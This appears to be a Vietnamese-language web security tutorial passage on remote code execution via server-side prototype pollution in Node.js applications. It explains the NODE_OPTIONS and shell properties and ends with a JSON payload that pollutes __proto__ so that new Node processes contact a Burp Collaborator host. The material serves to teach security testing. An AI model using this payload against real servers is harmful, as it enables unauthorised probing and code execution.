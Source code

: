 ![alt text](image-30.png)

---

## Remote code execution via server-side prototype pollution

Trong khi ô nhiễm nguyên mẫu phía client thường khiến trang web dễ bị tấn công DOM XSS thì ô nhiễm nguyên mẫu phía máy chủ có khả năng dẫn đến thực thi mã từ xa (RCE). Trong phần này, bạn sẽ học cách xác định các trường hợp có thể thực hiện được điều này và cách khai thác một số vectơ tiềm năng trong các ứng dụng Node.

### Identifying a vulnerable request

Có một số bộ xử lý thực thi lệnh tiềm ẩn trong Node, nhiều trong số đó xảy ra trong mô-đun `child_process`. Những lệnh này thường được gọi bởi một yêu cầu xảy ra không đồng bộ với yêu cầu mà bạn có thể dùng để làm ô nhiễm nguyên mẫu ngay từ đầu. Do đó, cách tốt nhất để xác định các yêu cầu này là làm ô nhiễm nguyên mẫu bằng một tải trọng kích hoạt tương tác với Burp Collaborator khi được gọi.

Biến môi trường `NODE_OPTIONS` cho phép bạn xác định chuỗi đối số dòng lệnh sẽ được sử dụng theo mặc định bất cứ khi nào bạn bắt đầu một tiến trình Node mới. Vì đây cũng là một thuộc tính trên đối tượng `env`, bạn có thể kiểm soát thuộc tính này thông qua ô nhiễm nguyên mẫu nếu nó chưa được xác định.

Một số chức năng của Node để tạo tiến trình con mới chấp nhận thuộc tính `shell` tùy chọn, cho phép các nhà phát triển thiết lập một shell cụ thể, chẳng hạn như bash, để chạy lệnh. Bằng cách kết hợp điều này với thuộc tính `NODE_OPTIONS` độc hại, bạn có thể làm ô nhiễm nguyên mẫu theo cách gây ra tương tác với Burp Collaborator bất cứ khi nào một quy trình Node mới được tạo:

```json
"__proto__": {
    "shell":"node",
    "NODE_OPTIONS":"--inspect=YOUR-COLLABORATOR-ID.oastify.com\"\".oastify\"\".com"
}
```
